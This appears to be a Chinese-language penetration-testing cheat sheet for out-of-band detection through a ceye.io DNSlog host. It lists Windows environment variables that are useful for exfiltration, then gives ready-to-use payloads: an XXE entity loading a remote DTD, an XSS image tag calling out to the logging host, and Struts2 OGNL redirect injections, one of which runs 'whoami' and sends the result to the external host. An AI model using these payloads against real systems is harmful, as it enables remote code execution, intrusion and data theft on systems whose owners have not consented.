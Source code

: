 ```
%OS%                     系统       返回操作系统名称。Windows 2000 显示其操作系统为 Windows_NT。
%PATH%                   系统       指定可执行文件的搜索路径。
%PATHEXT%                系统       返回操作系统认为可执行的文件扩展名的列表。
%PROCESSOR_ARCHITECTURE% 系统       返回处理器的芯片体系结构。值：x86 或 IA64（基于 Itanium）。
%PROCESSOR_IDENTFIER%    系统       返回处理器说明。
%PROCESSOR_LEVEL%        系统       返回计算机上安装的处理器的型号。
%PROCESSOR_REVISION%     系统       返回处理器的版本号。
%PROMPT%                 本地       返回当前解释程序的命令提示符设置。由 Cmd.exe 生成。
%RANDOM%                 系统       返回 0 到 32767 之间的任意十进制数字。由 Cmd.exe 生成。
%SYSTEMDRIVE%            系统       返回包含 Windows server operating system 根目录（即系统根目录）的驱动器。
%SYSTEMROOT%             系统       返回 Windows server operating system 根目录的位置。
%TEMP%和%TMP%            系统和用户 返回对当前登录用户可用的应用程序所使用的默认临时目录。有些应用程序需要 TEMP，而其他应用程序则需要 TMP。
%TIME%                   系统       返回当前时间。使用与                                                                                   time       /t                                                                     命令相同的格式。由         Cmd.exe                  生成。有关                       time   命令的详细信息，请参阅 Time。
%USERDOMAIN%             本地       返回包含用户帐户的域的名称。
%USERNAME%               本地       返回当前登录的用户的名称。
%USERPROFILE%            本地       返回当前用户的配置文件的位置。
%WINDIR%                 系统       返回操作系统目录的位置。
```

### SSRF



```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
```

### XSS
`><img src=http://xss.xxxx.ceye.io/aaa>`



### 其他
#### XML Entity Injection
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
```

#### Struts2
```
xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}
xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```
